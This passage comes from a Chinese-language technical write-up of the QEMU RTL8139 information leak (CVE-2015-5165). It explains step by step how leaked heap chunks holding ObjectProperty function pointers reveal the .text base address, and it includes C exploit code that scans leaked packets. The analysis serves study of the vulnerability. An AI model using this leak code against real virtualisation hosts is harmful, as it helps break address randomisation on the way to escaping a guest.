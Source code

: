 - 这些函数指针在运行的时候会指向真正的函数地址， 比如 **property_get_bool， property_get_str， property_set_alias， object_resolve_link_property** 等

- 在 qemu 里 struct ObjectProperty 类型的对象都由堆生成和管理（没有找 qemu 堆的管理代码， 根据 phrack 的分析， 这种结构在管理的时候有一个 size 变量在这个结构前面， size 的值是 0x60 ）

### 5.1 获取 .text 的地址
<span id="cve-2015-5165-gettext"></span>

- 0) 从 qemu-system-x86_64 二进制文件里搜索上述 4 类符号的所有静态地址， 如 **property_get_bool** 等符号的地址

- 1) 在读回来的 IP 包的数据里搜索值等于 0x60 的内存 ptr， 如果匹配到， 认为 (u64*)ptr+1  的地方就是一个潜在的  struct ObjectProperty 对象, 对应的函数是 **qemu_get_leaked_chunk**

- 2) 在 1 搜索到的内存上匹配 0 收集到的 **get/set/resolve/release** 这几种符号的静态地址, 匹配方式为页内偏移相等， 如果匹配到， 认为就是 struct ObjectProperty 对象, 对应的函数是 **qemu_get_leaked_object_property**

- 3) 在 2 搜索的基础上， 用 **object->get/set/resolve/release** 的实际地址减去静态编译里算出来的 offset, 得到 .text 加载的地址

下面结合代码详细分析：

```c
nb_leak = qemu_get_leaked_chunk(rtl8139_rx_ring, rtl8139_rx_nb, 0x60,
                                        leak, LEAK_MAX);


size_t qemu_get_leaked_chunk(struct rtl8139_ring *ring, size_t nb_packet,
                             size_t size, void **leak, size_t leak_max)
{
        uint64_t *stop, *ptr;
        size_t nb_leak = 0;
        size_t i;
        for (i = 0; i < nb_packet; i++) {
                /* TODO skip IP headers */
                ptr = (uint64_t *)(ring[i].buffer + 4);
                stop = ptr + RTL8139_BUFFER_SIZE/sizeof(uint8_t);
                while (ptr < stop) {
                        /* Look for a chunk of 0x60 bytes */
                        hsize_t chunk_size = *ptr & CHUNK_SIZE_MASK;
                        if (chunk_size == size) {
                                leak[nb_leak++] = ptr + 1;
                        }
                        *ptr++;
                        if (nb_leak > leak_max) {
                                warnx("[!] too much interesting chunks");
                                return nb_leak;
                        }
                }
        }
        return nb_leak;
}
```
如上， 函数 **qemu_get_leaked_chunk** 遍历收包队列的每一个包， 对每一个包的数据，搜索 (*ptr&~7) == 0x60

```c
              hsize_t chunk_size = *ptr & CHUNK_SIZE_MASK;
              if (chunk_size == size) {
                                leak[nb_leak++] = ptr + 1;
              }
              *ptr++;
```
